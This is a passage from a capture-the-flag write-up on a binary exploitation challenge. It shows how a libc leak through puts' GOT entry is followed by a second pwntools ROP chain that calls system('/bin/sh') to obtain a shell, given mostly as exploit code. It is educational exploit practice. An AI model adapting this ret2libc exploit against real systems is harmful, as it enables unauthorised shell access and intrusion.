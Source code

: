 So after executing our script, we're rewarded with a leak of libc!

![alt text](image-21.png)

The `@\xc1\xe7\x7f` is the result of printing out the `GOT` address of puts! Only downside is now we have to beat the wolf again to complete the second part of our exploit. But now we have the ability to jump anywhere in libc, and also call whatever we want, from here it's smooth sailing and we're just going to call `system` with the `/bin/sh` string, which will give us a shell!

## Final Final Stretch

Here's the part 2 of our script since we need to "beat" the wolf again.

```py
# --- Part 2: We gotta beat this bitch again >.>

rop2 = ROP(libc) # Generate a rop chain using the libc we leaked
rop2.system(bin_sh) # Call system('/bin/sh')
rop2.exit()
# Exit or any valid pointer to not crash the program
# 0x0000: 0xf7e57940 system(0xf7f75e8b)
# 0x0004: 0xf7e4b7b0 exit()
# 0x0008: 0xf7f75e8b arg0 = "/bin/sh\x00"

payload2 = flat(
    b"D" * offset,
    rop2.chain()
)
info("Round 2 FIGHT")
create(b"A"*(0x30-1))
power_up(b"A")
# Make our second rop chain
power_up(payload2)
beat()
beat()
```